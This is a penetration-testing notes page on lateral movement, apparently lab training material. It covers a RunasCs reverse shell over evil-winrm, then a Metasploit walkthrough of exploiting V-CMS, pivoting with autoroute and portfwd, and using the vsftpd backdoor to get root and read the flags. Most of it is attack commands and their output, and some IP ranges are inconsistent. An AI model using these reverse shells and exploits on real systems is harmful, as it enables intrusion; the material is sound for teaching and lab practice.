

# Lateral movements


## Windows

### Running as another user

Logged as user1 with evil-winrm we cannot run psexec or any other tool requiring to confirm a modal, since we only have terminal access. 

However, the tester can use the binary RunasCs.exe from: https://github.com/antonioCoco/RunasCs/releases. Forked in the tester repo: https://github.com/amandaguglieri/RunasCs

Upload the binary to the machine:

```bash
*Evil-WinRM* PS C:\Users\svc_winrm\Desktop> upload RunasCs.exe
```

Set a listener in a different terminal from the attacker's machine:

```bash
nc -lnvp 1234
```

Run a reverse shell:

```bash
.\RunasCS.exe svc_ldap M1XyC9pW7qT5Vn  powershell.exe -r 10.10.14.129:1234
```


## Scenario 1

Lateral movement is a technique that adversaries use, after compromising an endpoint, to extend access to other hosts or applications in an organization.




### using metasploit

1. Get our ip

```bash
ip a 
# 192.64.166.2
```

2. Get machine ip 

```bash
ping demo.ine.local
# 192.64.166.3
```

3. Enumerate services in the target machine  

```bash
nmap -sV -sS -O 192.64.166.3
# open ports: 80 and 3306.
```

4. Go further on port 80

```bash
nmap 
# In the scan you will see: V-CMS-Powered by V-CMS  and PHPSESSID: httponly flag not set
```

5. Launch metasploit and search for v-cms

```bash
service postgresql start
msfconsole -q
```

```msf
search v-cms
```

6. Use the exploit exploit/linux/http/vcms_upload, configure it and run it

```msf
use exploit/linux/http/vcms_upload
show options
```

```msf
set RHOST 192.64.166.3
set TARGETURI /
set LHOST 192.64.166.2
set payload php/meterpreter/reverse_tcp
run
```

7. You will get a limited meterpreter. Access to the shell and print the flag

```msf
meterpreter> shell
> cat /root/flag.txt
# 4f96a3e848d233d5af337c440e50fe3d
```

8. Map other possible interfaces in the machine. Since ifconfig does not work, spawn the shell and try again

```bash
ifconfig 
# does not work
```

```bash
ipconfig
# does not work
```

```bash
which python
# it’s located under /bin, so we can use python to spawn the shell
```

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
$root@machine> ifconfig
# it tells us about another interface: 192.182.147.2
```


#### route

9. Add tunnel from interface 192.64.166.3 (which is session 1 of meterpreter) and the discovered interface, 192.182.147.2 with the utility route:

```bash
$root@machine> exit
```

```msf
meterpreter> run autoroute -s 192.182.147.0 -n 255.255.255.0
# you can also add a route out of the meterpreter. In that case you need to specify the meterpreter session: route add 192.182.147.0 .0 255.255.255.0 1
```

10. Background the meterpreter session and check if the route is added successfully to the metasploit's routing table.

```msf
meterpreter> background
msf> route print
```

11. Run auxiliary TCP port scanning module to discover any available hosts (From IP .3 to .10). And, if any of ports 80, 8080, 445, 21 and 22 are open on those hosts.

```msf
msf> use auxiliary/scanner/portscan/tcp

msf  auxiliary/scanner/portscan/tcp > set PORTS 80, 8080, 445, 21, 22

msf  auxiliary/scanner/portscan/tcp > set RHOSTS 192.69.228.3-10

msf  auxiliary/scanner/portscan/tcp > exploit
# Give us ports 21 and 22 open at 192.182.147.3
```

#### portfwd

12. In order to reach the discovered target, we need to fordward remote machine port to the local machine port. We want to target port 21 of that machine so we will forward remote port 21 to the local port 1234. This is done with the utility portfwd from meterpreter

```msf
msf  auxiliary/scanner/portscan/tcp > sessions -i 1

meterpreter> portfwd
# Tell you  there is none configured

meterpreter> portfwd add -l 1234 -p 21 -r 192.182.147.3
# -l: local port 
# -p 21 The port we are targeting in our attack 
# -r the remote host

meterpreter> portfwd list
# It tells the active Port Forwards. Now, scan the local port using Nmap
```

13. Run nmap on the forwarded local port to identify the service name

```msf
meterpreter> background

msf> nmap -sS -sV -p 1234 localhost
# It tells you the ftp version: vsftpd 2.0.8 or later
```

14. Search for vsftpd exploit module and exploit the target host using vsftpd backdoor exploit module.

```msf
msf > search vsftpd 
msf> use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit/unix/ftp/vsftpd_234_backdoor>   set RHOSTS 192.69.228.3
msf exploit/unix/ftp/vsftpd_234_backdoor> exploit

# Sometimes, the exploit fails the first time. If that happens then please run the exploit again.

$> id
# you are root.
```

15. Print the flag

```msf
$> cat /root/flag.txt
# 58c7c29a8ab5e7c4c06256b954947f9a
```
